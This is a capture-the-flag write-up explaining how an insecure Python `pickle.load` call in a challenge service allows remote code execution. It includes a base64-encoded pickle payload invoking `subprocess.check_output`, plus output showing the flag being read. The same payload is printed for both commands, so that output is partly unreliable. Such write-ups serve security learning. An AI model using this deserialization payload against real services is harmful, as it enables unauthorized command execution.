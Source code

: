 # Sauerkraut

What goes best on a hotdog?

## Objective
The objective of this challenge is to exploit a vulnerability on the `pickle.load` function to achieve RCE on the target machine.

## Exploring the challenge
Testing with small base64 payloads we have errors like `could not find MARK` and `pickle data was truncated`, that tells us that the data being passed as input here is being loaded with pickle using the `load` function. By looking at articles like [this](https://coldfix.de/2020/12/21/be-careful-with-pickle-load/) we can understand how the bad usage of the function `pickle.load` can be dangerous, so this will become our attack vector.

## Solution
[This](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) great article by David Hamman show us how a way we can exploit the `pickle.load` vulnerability by serializing a custom class with `pickle.dumps` and using it as a parameter for the load function. You should definetely read his article to understand the magic behind.

My solution, based on David's explanation, was to create a payload that runs a linux command using the `subprocess.check_output` function. With that I was able to list all the files in the directory and finally `cat` the flag file. Check out the `crack.py` file.

```bash
#listing all the files in the directory
$ python crack.py 'ls -la'
Input: b'gANjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcQBdcQEoWAMAAABjYXRxAlgEAAAAZmxhZ3EDZYVxBFJxBS4='
Response: b'total 24\ndrwxr-xr-x 3 root root 4096 Sep 23  2021 .\ndrwxr-xr-x 1 root root 4096 Apr 20 01:10 ..\ndrwxr-xr-x 3 root root 4096 Sep 23  2021 app\n-rw-r--r-- 1 root root   71 Jun  2  2021 flag\n-rw-r--r-- 1 root root   59 Sep 23  2021 gunicorn_config.py\n-rw-r--r-- 1 root root   31 Jun  2  2021 requirements.txt\n'

#reading the flag
$ python crack.py 'cat flag'
Input: b'gANjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcQBdcQEoWAMAAABjYXRxAlgEAAAAZmxhZ3EDZYVxBFJxBS4='
Response: b'SNYK{YOUR FLAG HERE}\n'

```